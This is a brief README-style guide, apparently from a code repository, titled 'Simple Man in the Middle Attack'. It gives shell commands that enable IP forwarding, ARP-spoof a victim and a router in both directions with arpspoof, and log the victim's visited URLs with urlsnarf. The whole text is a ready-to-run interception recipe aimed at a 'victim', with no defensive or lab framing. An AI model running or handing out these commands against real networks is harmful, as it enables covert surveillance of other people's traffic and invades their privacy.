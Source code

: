 # Simple Man in the Middle Attack

Goal: Intercept packets between a target device and router

1. Enable packet forwarding
``` 
sysctl -w net.ipv4.ip_forward=1
```

2. Intercept packets from victim to router
```
arpspoof -i [Network Interface Name] -t [Victim IP] [Router IP]
```

3. Intercept packets from router to victim
```
arpspoof -i [Network Interface Name] -t [Router IP] [Victim IP]
```

5. Retrieve URL information from victim
```
urlsnarf -i [Network Interface Name]
```

6. Disable packet forwarding
```
sysctl -w net.ipv4.ip_forward=0
```
